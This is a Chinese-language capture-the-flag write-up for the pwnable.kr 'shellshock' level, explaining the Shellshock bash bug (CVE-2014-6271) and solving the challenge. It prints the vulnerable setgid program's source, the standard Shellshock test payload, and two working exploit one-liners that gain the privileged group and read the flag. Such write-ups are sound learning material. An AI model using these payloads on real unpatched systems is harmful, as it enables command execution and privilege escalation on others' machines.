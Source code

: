 

![image-20181005131725703](./img/image-20181005131725703.png)

本关主要是考察shellshock漏洞。

`ssh shellshock@pwnable.kr -p2222`登陆后看一下权限：

```bash
shellshock@ubuntu:~$ ls -al
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 92 root root             4096 Aug 12 10:28 ..
d---------  2 root root             4096 Oct 12  2014 .bash_history
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```

我们当前id是shellshock，目标flag需要shellshock_pwn用户才可以读。我们可以执行shellshock程序，由于group中的s位，该程序在执行时具备shellshock_pwn用户组的权限。因此最终的目标是控制shellshock去读取flag。

源程序比较简短，直接看源码吧。

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

程序调用getegid获取当前group的id，setresuid会设置程序的 the  real user ID, the effective user ID, and the saved set-user-ID ，总之就是变成shellshock_pwn啦。（linux这些ID其实我很迷，暂时没搞的很清楚，已加入todolist）。之后调用存在漏洞的bash(version 4.2.25)去执行。



### shellshock

shellshock漏洞于2014年9月24日披露，CVE-2014-6271。payload：

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

漏洞原理：

 1. 环境变量的值以()开头表示定义导入函数。在bash启动时，如果存在导入函数，那么这个函数就会被执行。

    ```bash
    shellshock@ubuntu:~$ env HELLO="() { /usr/bin/id; }" ./bash -c HELLO
    uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
    ```

2. 调用子进程bash时候，会copy父进程的env，执行导入函数时，bash解析环境变量没有对代码和数据进行边界识别，导致任意代码执行，也就是echo vulnerable。

关于shellshock以及bash的研究其实可以更加深入的，由于最近没有这个需求加上时间关系，暂时搁置吧。详细可以参考drops文章[1]和r00tgrok[2]的文章，其实我更喜欢第二篇，因为足够底层，更加了解原理。

### exp

两个参考的exp：

```bash
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
shellshock@ubuntu:~$ env x='() { :;}; bash' ./shellshock
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1020(shellshock_pwn) groups=1020(shellshock_pwn),1019(shellshock)
shellshock@ubuntu:~$ cat flag
only if I knew CVE-2014-6271 ten years ago..!!
shellshock@ubuntu:~$ env echo="() { cat flag; }" /home/shellshock/bash -c '/home/shellshock/shellshock'
only if I knew CVE-2014-6271 ten years ago..!!
```



## references

[1] https://drops.thinkycx.me/#!/drops/368.Shellshock%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E4%B8%8E%E5%88%86%E6%9E%90%E6%B5%8B%E8%AF%95

[2] http://www.cnblogs.com/r00tgrok/p/3996134.html

